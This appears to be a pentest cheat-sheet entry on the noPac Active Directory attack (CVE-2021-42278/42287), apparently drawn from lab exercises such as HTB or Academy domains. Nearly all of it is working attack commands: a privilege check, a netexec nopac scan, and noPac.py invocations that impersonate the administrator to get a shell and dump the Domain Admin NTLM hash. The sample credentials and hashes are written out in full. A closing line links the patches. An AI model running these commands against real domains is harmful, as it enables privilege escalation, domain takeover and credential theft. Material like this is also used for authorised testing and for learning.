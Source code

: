 ```powershell
> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
```

```bash
netexec smb 192.168.170.175 -u adot -p eight -M nopac
```
[POC](https://github.com/Ridter/noPac)
```bash
python3 scanner.py inlanefreight.local/forend:Klmcargo2 -dc-ip 172.16.5.5 -use-ldap
```
Shell
```bash
python3 noPac.py outdated.htb/sflowers -hashes 1FCDB1F6015DCB318CC77BB2BDA14DB5 -dc-ip 172.16.5.5  -dc-host DC.outdated.htb --shell --impersonate administrator -use-ldap
```
Dump NTLM hash of `Domain Admin`
```bash
python noPac.py inlanefreight.local/forend:Klmcargo2 -dc-ip 172.16.5.5 -dc-host ACADEMY-EA-DC01 --impersonate Administrator -dump -just-dc-user Administrator -use-ldap
```
### Mitigations
Patch [2021-42278](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-42278) and [2021-42287](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-42287)
